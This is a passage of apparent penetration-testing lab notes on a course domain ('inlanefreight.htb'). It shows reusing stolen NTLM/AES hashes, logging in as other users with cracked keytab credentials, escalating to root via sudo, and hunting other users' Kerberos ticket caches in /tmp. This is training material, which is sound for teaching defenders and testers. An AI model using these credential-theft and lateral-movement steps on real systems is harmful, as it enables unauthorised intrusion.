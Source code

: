 * With the NTLM hash, we can perform a Pass the Hash attack
* With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password
* A quick way to decrypt passwords is with online repositories such as [https://crackstation.net/](https://crackstation.net/)

**Note:** A keypass file can contain different types of hashes and can be merged to contain multiple credentials even from different users.

#### Log in as Carlos

```sh
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htb

Password: 
carlos@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13
```

### Obtaining More Hashes
* Carlos has a cronjob that uses a keytab file named `svc_workstations.kt`
* We can repeat the process, crack the password, and log in as `svc_workstations`

#### Privilege Escalation to Root

```sh
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
                  
svc_workstations@inlanefreight.htb@10.129.204.23 password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)          
...SNIP...

svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```

#### Looking for ccache Files

```sh
ls -la /tmp

total 76
drwxrwxrwt 13 root                               root                           4096 Oct  7 11:35 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 10:43 krb5cc_647401107_O0oUWh
```